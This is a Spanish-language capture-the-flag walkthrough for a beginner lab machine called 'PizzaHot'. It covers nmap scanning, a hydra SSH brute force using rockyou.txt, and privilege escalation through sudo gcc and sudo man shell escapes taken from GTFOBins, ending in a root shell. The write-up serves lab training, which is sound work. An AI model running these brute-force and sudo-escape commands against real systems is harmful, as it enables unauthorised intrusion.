 ```yaml
---
description: '🔍 Dificultad: Principiante'
---
```


# PizzaHot

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.41
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 192.168.1.41
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 192.168.1.41
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/image (738).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora exploramos el servicio **HTTP**. Ingresamos la IP y nos encontramos la página de pizzas.

<figure><img src="../../.gitbook/assets/image (739).png" alt=""><figcaption></figcaption></figure>

Revisamos el código fuente y encontramos el nombre de un usuario llamado **pizzapiña**.

<figure><img src="../../.gitbook/assets/image (740).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```bash
hydra -l pizzapiña -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.41 -t 5
```

que utiliza la herramienta **Hydra** para realizar un ataque de fuerza bruta contra el servicio **SSH** de una máquina con la IP **192.168.1.41**

<figure><img src="../../.gitbook/assets/image (744).png" alt=""><figcaption></figcaption></figure>

Al realizar el ataque de fuerza bruta, hemos descubierto la contraseña de **pizzapiña**. Sabiendo esto, nos conectamos a través de **SSH** al usuario con el comando:

```bash
ssh pizzapiña@192.168.1.41
```

<figure><img src="../../.gitbook/assets/image (741).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/image (742).png" alt=""><figcaption></figcaption></figure>

Vemos que tenemos permisos sudo con **gcc** por lo que miramos [GTFOBins ](https://gtfobins.github.io/gtfobins/gcc/)para ver como podemos escalar privilegios.

```bash
sudo -u pizzasinpiña gcc -wrapper /bin/sh,-s .
```

Realizar tratamiento de la TTY. Como se nos muestra aquí: [Tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/). &#x20;

<figure><img src="../../.gitbook/assets/image (743).png" alt=""><figcaption></figcaption></figure>

Ya estamos dentro del usuario **pizzasinpiña** por lo que realizamos otra vez el comando:

```bash
sudo -l
```

<figure><img src="../../.gitbook/assets/image (745).png" alt=""><figcaption></figcaption></figure>

Vemos que tenemos permisos sudo con **man** por lo que miramos [GTFOBins ](https://gtfobins.github.io/gtfobins/man/)para ver como podemos escalar privilegios.

```bash
sudo man man
```

Presionamos la tecla **ESC** para salir del modo de inserción en VIM y, a continuación, ejecutamos el siguiente comando para obtener una shell con privilegios elevados:

<figure><img src="../../.gitbook/assets/image (746).png" alt=""><figcaption></figcaption></figure>

Ya somos **root**.

<figure><img src="../../.gitbook/assets/image (747).png" alt=""><figcaption></figcaption></figure>

Te deseo mucho éxito en tu búsqueda de las flags! Recuerda prestar atención a cada detalle, examinar los archivos y servicios con detenimiento, y utilizar todas las herramientas disponibles para encontrarlas. La clave para el éxito está en la perseverancia y en no dejar ningún rincón sin explorar. ¡Adelante, hacker! 💻🔍🚀
